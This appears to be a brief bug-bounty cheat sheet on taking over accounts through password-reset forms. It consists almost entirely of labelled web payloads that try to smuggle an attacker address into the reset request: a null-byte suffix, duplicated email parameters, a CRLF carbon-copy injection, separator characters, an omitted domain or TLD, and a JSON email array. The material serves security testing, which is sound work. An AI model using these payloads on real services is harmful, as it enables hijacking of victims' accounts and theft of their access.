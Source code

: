 # Account Takeover


### A list of common techniques to take over a user account using password reset

`victim@example.com%00`

Double Parameter

`email=victim@example.com&email=hacker@example.com`

Carbon Copy

`email=victim@example.com%0a%0dcchacker@example.com`

Separators

`email=victim@example.com,hacker@example.com`

`email=victim@example.com%20hacker@example.com`

`email=victim@example.com|hacker@example.com`

Omit domain

`email=victim`

Omit TLD

`email=victim.hck`

JSON

`{"email":["victim@example.com","hacker@example.com"]}`

#bugbounty #bugbountytips #awesome-bug-bounty
